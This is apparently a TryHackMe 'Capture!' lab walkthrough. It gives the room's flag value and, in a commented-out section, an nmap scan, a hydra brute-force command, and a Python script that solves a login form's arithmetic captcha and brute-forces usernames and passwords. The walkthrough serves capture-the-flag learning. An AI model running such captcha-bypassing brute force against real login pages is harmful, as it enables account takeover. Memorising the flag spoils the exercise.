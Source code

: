 
# <div align="center">[Capture!](https://tryhackme.com/r/room/capture)</div>

<div align="center">
  <img src="https://github.com/user-attachments/assets/b80bf4c0-f7c0-4d57-9365-cfec6de6020a" height="200"></img>
</div>

## Task 1. Download the file.
```
No need
```
## Tast 2. Bypass the login form
### What is the value of flag.txt?
```
7df2eabce36f02ca8ed7f237f77ea416
```
## [Lab Material](https://github.com/Esther7171/THM-Walkthroughs/tree/main/Room/Capture!)
<!--## Let make a Nmap scan
```
death@esther:~$ nmap 10.10.236.203 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 06:37 IST
Nmap scan report for 10.10.236.203
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
## Let en=

## As we have both user and pass file let try to brute force login page using hydra.
```
sudo hydra -L usernames.txt -P passwords.txt 10.10.236.203 http-post-form "/login:username=^USER^&password=^PASS^:Error" -V -t 40
```

## Hydra didnt find anything,but when i try to login just to check it return me an error

![image](https://github.com/user-attachments/assets/0ae972ca-ff87-4f06-bbd0-4d1b34b97989)

* ### Too many bad login attempts!
* ### Captcha enabled
* ### Error: Invalid captcha

## We need to buypass captcha by creating own python script . it took help of [This script](https://github.com/sakibulalikhan/thm-capture/blob/main/capture.py)

```

#! /bin/python3

import requests
import argparse

def solveCaptcha(captcha):
    if captcha[1] == '+':
        ans = int(captcha[0]) + int(captcha[2])
    elif captcha[1] == '-':
        ans = int(captcha[0]) - int(captcha[2])
    elif captcha[1] == '*':
        ans = int(captcha[0]) * int(captcha[2])
    elif captcha[1] == '/':
        ans = int(captcha[0]) / int(captcha[2])
    return ans

def crackUsername(url, captcha):
    print('[+] Starting username brute force...\n')
    f = open('./usernames.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={i.strip()}&password=letmein&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        sReq = sReq.text.split('\n')
        if 'does not exist' not in sReq[104]:
            print(f'!!! Username Found: {i.strip()}\n')
            crackPassword(i.strip(), captcha)
        else:
            captcha = sReq[96].split()

def crackPassword(uName, captcha):
    print('[+] Starting password brute force...\n')
    f = open('./passwords.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={uName}&password={i.strip()}&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if len(sReq.text) < 100:
            print(f'!!! Password Found: {i.strip()}\n')
            print(f'!!! Flag: {sReq.text.split()[1][4:-5]}')
            quit()
        else:
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Brute force username and password with captcha.')
    parser.add_argument('--host', '-t', type=str, help='Target host URL')
    args = parser.parse_args()

    if args.host:
        url = f'http://{args.host}/login'
        print(f'[+] Starting bruteforce with target URL: {url}\n')
        
        for i in range(0, 10):
            myData = 'username=admin&password=letmein'
            sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

        crackUsername(url, captcha)
    else:
        print("Error: You have to specify the target host using the --host or -t flag.")
        print("Usage: ./script.py --host $IP")
             
```
## Save this in a file and name somthing with .py extention.
### Install the requirments
